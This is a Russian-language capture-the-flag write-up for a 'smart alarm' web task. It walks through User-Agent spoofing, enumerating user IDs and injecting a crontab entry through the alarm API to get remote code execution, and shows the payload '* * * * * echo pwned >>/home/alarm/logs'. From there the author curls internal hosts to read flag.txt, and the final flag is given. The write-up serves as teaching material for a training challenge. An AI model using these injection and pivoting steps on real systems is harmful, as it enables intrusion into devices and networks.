 # Будильник: Write-up

Заходим на сайт и видим, что нас просят зайти с Android-устройства. Открываем код страницы и видим, что ровно такой HTML нам и приходит.

Ладно.

Достаем телефон, открываем сайт там. Видим QR-сканер, с помощью которого можно отсканировать данные в условии QR-код. Опции отсканировать QR из файла при этом нет.

![Scan QR](writeup/index.jpg)

Сканируем код и попадаем на страницу управления таймерами. Здесь пустовато.

![Alarm UI](writeup/alarmui.jpg)

Но можно и добавить таймер, тыкнув на синюю кнопку снизу. При этом откроется интерфейс, до боли похожий на типичный дизайн от Google. Ага, понятно, вот почему требуется Android.

![Add alarm](writeup/add.jpg)

![Alarm UI with timer added](writeup/withtimer.jpg)

Для дальнейшего анализа нам явно понадобится десктоп, а у кого-то и Android может не быть, так что разберемся, как загрузить сайт с компьютера. Даже если он не будет работать, мы хотя бы сможем почитать код.

Домашняя страница отдает следующий HTML:

```html
<!DOCTYPE html>
<html>
	<head>
		[удалено для краткости]
	</head>
	<body>
		<h1>smartAlarm</h1>

		<p>Please use this app on Android only.</p>
	</body>
</html>
```

Как сервер определяет, Android ли использует клиент? Вероятно, по User-Agent. Попробуем заменить браузерный User-Agent на Android'овский. В Firefox, например, можно воспользоваться [расширением](https://addons.mozilla.org/en-US/firefox/addon/uaswitcher/). И да, текст заменяется на "Scan your smartAlarm QR." — тот же, что был на телефоне! Посмотрим на код теперь:

```html
<!DOCTYPE html>
<html>
	<head>
		[удалено для краткости]
	</head>
	<body>
		<h1>smartAlarm</h1>

		<p>Scan your smartAlarm QR.</p>
		<div id="reader"></div>

		<script type="text/javascript">
			const html5QrCode = new Html5Qrcode("reader");
			html5QrCode.start({facingMode: "environment"}, {fps: 10, qrbox: {width: 250, height: 250}}, text => {
				if (text.startsWith("smartAlarm ")) {
					for (const param of text.split(" ").slice(1)) {
						const [_, key, value] = param.match(/^(\w+)=(\w+)$/);
						localStorage[key] = value;
					}
					html5QrCode.stop();
					location.href = "alarmui";
				}
			});
		</script>
	</body>
</html>
```

Итак, при сканировании QR-кода устанавливаются переменные в [LocalStorage](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage) и происходит переход на страницу `alarmui`. В данном нам QR-коде записана строка `smartAlarm uid=7`, что можно определить любым сторонним сканнером.

Хмм... 7 — маленькое число, да и проверок пароля нигде не было. UID — явно User ID. Может быть, есть еще пользователи? Попробуем поперебирать: 0, 1, 2, ... Для каждого UID'а сгенерируем QR-код руками и отсканируем его через сайт; либо можно напрямую из браузера установить переменную в LocalStorage и открыть `alarmui`. На большинстве UID'ов сайт выдает ошибку `Invalid UID`, но на uid=2 и uid=7 он не ругается. 7 — тестовый аккаунт, как следует из описания задания, а вот аккаунтом под номером 2 кто-то даже пользуется: там уже стоит будильник на 9 часов утра. Вот он, основатель Smart Alarm!

В [коде alarmui](controller/templates/alarmui.html) много интересного, но больше всего в глаза бросается [код Konami](https://ru.m.wikipedia.org/wiki/%D0%9A%D0%BE%D0%B4_Konami):

```html
...
<script type="text/javascript" src="https://zbic.in/konami-code-js/konami-code.js"></script>
...
<script type="text/javascript">
...
document.addEventListener("konamiCode", async () => {
	alert((await api("get-diagnostics")).logs);
});
</script>
...
```

Здесь используется сторонняя реализация распознавателя кода. Прям по ссылке https://zbic.in/konami-code-js написано, как ей пользоваться и на десктопе, и на телефоне. Введем код *где-нибудь* и получим интересные логи:

```
Fetching /home/alarm/logs from the device...
```

Пустовато. Нету логов.

Может, их нужно триггернуть? Кажется, 9 утра было давно. Добавим новый таймер на следующую минуту... добавим... возможно, в этот момент добавить таймер не получится, потому что интерфейс только на Android нормально работает. В этом случае придется вызывать JavaScript-функцию руками.

Добавили, подождали пару минут... и нет, в логах ничего не появилось. Перечитываем условие. Ах да, "англосаксонские партнеры". В Великобритании время другое, там UTC. Забиваем время по UTC, ждем еще... и оно срабатывает:

```
Fetching /home/alarm/logs from the device...
alarm! at Sun Feb 11 16:48:00 UTC 2024
```

Логн, допустим, работают, но как это поможет достать флаг? Хмм... код на JS генерирует какую-то явно странную строку. Минуты, потом часы, звездочки, дни недели ещё... что это за формат? А это формат [cron](https://en.m.wikipedia.org/wiki/Cron). Это подтверждает и то, что в условии дана фотография Raspberry Pi, на котором обычно запускают легковесный Linux.

Может ли быть такое, что эта строка подставляется напрямую в `crontab`? Например, `[паттерн] echo "alarm! at $(date)" >>/home/alarm/logs` или что-то в этом духе. Давайте попробуем! Добавим через API паттерн `* * * * * echo pwned >>/home/alarm/logs` и посмотрим, что случится. Это можно делать и с десктопа: на API проверки User-Agent не распространяются. Ждем минуту, и...

```
Fetching /home/alarm/logs from the device...
alarm! at Sun Feb 11 16:48:00 UTC 2024
pwned ring-alarm
```

Откуда `ring-alarm`? А, понятно, это после нашего паттерна дописалась команда `ring-alarm`, это надо иметь в виду. Но RCE есть, а значит, мы близки к решению!

Флаг. Нам нужен флаг. Флаг, согласно условию, на ноутбуке основателя компании. А мы код запускаем не на ноутбуке, а на часах. Как они вообще могут быть связаны? Соединены? Конечно, локальной сетью! Наверняка они подключены к одному Wi-Fi. Проверяется это легко — запуском `ip address`:

```
Fetching /home/alarm/logs from the device...
alarm! at Sun Feb 11 16:48:00 UTC 2024
pwned ring-alarm
pwned ring-alarm
pwned ring-alarm
pwned ring-alarm
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: local: <BROADCAST,NOARP> mtu 1500 qdisc noop state DOWN qlen 1000
    link/ether 02:98:b0:88:f9:cf brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.2/24 scope global local
       valid_lft forever preferred_lft forever
    inet 192.168.1.3/24 scope global secondary local
       valid_lft forever preferred_lft forever
alarm! at Sun Feb 11 16:56:00 UTC 2024
pwned ring-alarm
```

`local`? Явно не совсем то, что ожидается от Wi-Fi, но какие-то интересные IP тут есть. Посмотрим, есть ли на них что-то, командой `curl 192.168.1.2 192.168.1.3`. Ага!

```html
<!DOCTYPE HTML>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href="flag.txt">flag.txt</a></li>
</ul>
<hr>
</body>
</html>
```

Правда, непонятно, какой из двух IP это выдал, но попробуем файл `flag.txt` также забрать с обоих: `curl 192.168.1.2/flag.txt 192.168.1.3/flag.txt`. Через минуту в логах появляется флаг.

Флаг: **ugra_time_to_get_up_9meeeputuudi**
